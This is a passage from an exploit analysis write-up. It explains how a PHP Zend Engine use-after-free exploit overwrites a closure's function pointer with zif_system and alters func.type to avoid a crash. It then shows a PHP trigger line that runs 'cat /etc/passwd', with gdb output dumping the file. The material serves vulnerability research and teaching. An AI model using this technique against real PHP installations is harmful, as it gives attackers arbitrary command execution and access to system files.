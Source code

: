 We can see from the diff that:
* We overwrote a useful function pointer and set it to be ``zif_system`` (Line 25 in the diff)
* We overwrote the ``zend_closure.func.type`` value to be ``0x1`` instead of ``0x2`` (Line 7 in the diff). But why? 1 or 2, what does it matter? It took me a while to understand but eventually I realized why the exploit author did it: The Zend Engine calls a function named ``destroy_op_array()`` which causes a crash. But if we set this value to be ``0x1``, we can make skip the crash:

![screenshot1](./res/zend_closure_free_storage.png)

By setting it to ``0x1``, the ``if()`` statement in line 445(in the snippet above) will not be true and ``destroy_op_array()`` will not be called. #profit 

After looking at the macro from the snippet above(``#define ZEND_USER_FUNCTION 2``), I also realized that the exploit author set it to 0x1 and not 0x2 to make the Zend engine think that it's an internal function and not a user-defined function. 

## Pwn 🔫

Now that we have our malicious ``zend_closure`` all-set inside ``$helper->b``, all we need is to call it in a way that will trigger the ``zend_closure.func.internal_function.handler`` function pointer:

```php
($helper->b)('cat /etc/passwd');
```

Output:

```
gdb-peda$ r PoC.php
Starting program: /tmp/shaqattack/php-src/sapi/cli/php PoC.php
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New process 28482]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
process 28482 is executing new program: /bin/dash
[New process 28483]
process 28483 is executing new program: /bin/cat
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```
Achievement unlocked!